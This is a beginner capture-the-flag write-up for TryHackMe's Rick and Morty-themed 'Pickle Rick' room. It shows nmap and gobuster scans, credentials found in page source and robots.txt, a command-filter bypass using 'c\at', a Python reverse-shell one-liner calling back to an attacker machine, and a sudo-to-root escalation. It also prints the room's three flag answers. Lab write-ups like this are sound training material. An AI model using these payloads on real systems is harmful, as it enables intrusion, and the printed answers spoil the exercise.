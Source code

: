 ## TryHackme: Pickle Rick Writeup
Pickle Rick CTF is a beginner friendly room on TryHackme, Theme based on Rick and Morty requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

```bash
$ sudo nmap -sS -sC -sV MACHINE_IP
```
![alt text](images/nmap.png)

![alt text](images/source%20page.png)

we found a username on source page: ```R1ckRul3s```

## Gobuster scan

```bash
$ gobuster dir -u http://MACHINE_IP -w /wordlist-dir -x php,txt
```

![alt text](images/gobuster.png)

## robots.txt

![alt text](images/robots.png)

string: ```Wubbalubbadubdub```

## login to portal

![alt text](images/login%20page.png)

```sql
creds found
username: R1ckRul3s
password: Wubbalubbadubdub
```

![alt text](images/command.png)

### we have restrictions on commands we run 
We can bypass disabled commands, use ```c\at``` or ```less``` instead of ```cat``` 

```bash
c\at Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

![alt text](images/command%20bypassed.png)

## Reverse Shell
setup a netcat listener and put python3 Reverse shell command in panel

```bash
$ nc -nvlp 4242
```

```python3
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Second Ingredient found in /home/rick Directory 

```bash
$ cat second\ ingredients
1 jerry tear
```

## Privilege escalation
user www-data can run (ALL) commands as root without password

![alt text](images/sudo.png)

```bash
www-data@ip-10-10-195-52:/home/ubuntu$ sudo /bin/bash -p
root@ip-10-10-195-52:/home/ubuntu# whoami
root
```
![alt text](images/root.png)

we are root now 

```bash
root@ip-10-10-203-150:~# cat 3rd.txt
3rd ingredients: fleeb juice
```

## Ingredients
First Ingredient: ```mr. meeseek hair```

Second Ingredient: ```1 jerry tear```

Third Ingredient: ```fleeb juice```

